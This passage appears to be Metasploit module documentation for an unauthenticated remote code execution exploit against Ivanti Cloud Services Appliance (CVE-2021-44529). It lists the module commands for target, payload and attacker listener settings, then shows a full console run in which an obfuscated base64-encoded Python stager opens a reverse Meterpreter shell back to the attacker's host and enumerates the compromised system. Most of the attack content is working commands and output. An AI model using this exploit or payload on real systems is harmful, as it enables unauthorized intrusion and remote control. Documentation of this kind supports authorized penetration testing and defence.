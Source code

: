 * Open up WireShark and then click `System` on the tabs on the left side of the screen.
* Under `Network Settings`, click the `Save` button, then check WireShark for DNS requests to
  `centos` related endpoints. You should see a few that are from the CSA target.
* Save and run the Metasploit module below against the CSA target IP.

1. `use exploit/linux/http/ivanti_csa_unauth_rce_cve_2021_44529`
1. `set RHOSTS <CSA target IP>`
1. `set RPORT <port>`
1. `set LHOST <attacker host ip>`
1. `set LPORT <attacker host port>`
1. `set TARGET <0-Unix command, 1-PHP command or 2-Linux dropper>`
1. `exploit`
1. You should get a `bash` shell, `python` shell  or `meterpreter` session depending on the target and payload settings.

## Options
No additional options.

## Scenarios

### Ivanti Cloud Services Appliance RCE using payload cmd/unix/python/meterpreter/reverse_tcp
```
msf6 > use exploit/linux/http/ivanti_csa_unauth_rce_cve_2021_44529
[*] Using configured payload cmd/unix/python/meterpreter/reverse_http
msf6 exploit(linux/http/ivanti_csa_unauth_rce_cve_2021_44529) > set target 0
target => 0
msf6 exploit(linux/http/ivanti_csa_unauth_rce_cve_2021_44529) > set payload cmd/unix/python/meterpreter/reverse_tcp
payload => cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(linux/http/ivanti_csa_unauth_rce_cve_2021_44529) > set rhosts 192.168.100.41
rhosts => 192.168.100.41
msf6 exploit(linux/http/ivanti_csa_unauth_rce_cve_2021_44529) > set lhost 192.168.100.7
lhost => 192.168.100.7
msf6 exploit(linux/http/ivanti_csa_unauth_rce_cve_2021_44529) > set lport 4444
lport => 4444
msf6 exploit(linux/http/ivanti_csa_unauth_rce_cve_2021_44529) > exploit

[*] Started reverse TCP handler on 192.168.100.7:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.100.41:443 can be exploited.
[+] The target is vulnerable. Version: 4.6.0-20211203.1950
.
[*] Executing Unix Command with echo exec\(__import__\(\'zlib\'\).decompress\(__import__\(\'base64\'\).b64decode\(__import__\(\'codecs\'\).getencoder\(\'utf-8\'\)\(\'eNo9UE1LxDAQPTe/IrckGEO71K4uVhDxICKCuzeRpU1GDU3TkGS1Kv53G7I4hxnezJs3H3p0k484THKAyL+N7nnfBWhqHqI/yMijHgG9Th7PWFvsO/sGtCrZBhXRfy2+CG1uFjnQFT/i7ePN/X67e7q9fmCJJ+RkLchIKakuVqJqzkVVlmJNeL0YS5zeQzegAmYJLibxNF0EA+DoGUOmzUuJg3WdHCi5uiM8CA/ygy4Cz+ULUu0RG4Y+37UBbMBSxS7NIqdO/qunOc0QzCBpulsokNPoPIRA8wtE39QpqSAx+Q8JZBN+GfoDHtFfMQ\=\=\'\)\[0\]\)\)\) | exec $(which python || which python3 || which python2) -
[*] Sending stage (24380 bytes) to 192.168.100.41
[*] Meterpreter session 1 opened (192.168.100.7:4444 -> 192.168.100.41:59430) at 2023-01-08 16:43:38 +0000

meterpreter > sysinfo
Computer     : localhost.localdomain
OS           : Linux 3.10.0-1160.el7.x86_64 #1 SMP Mon Oct 19 16:18:59 UTC 2020
Architecture : x64
Meterpreter  : python/linux
meterpreter > getuid
Server username: nobody
meterpreter >
```

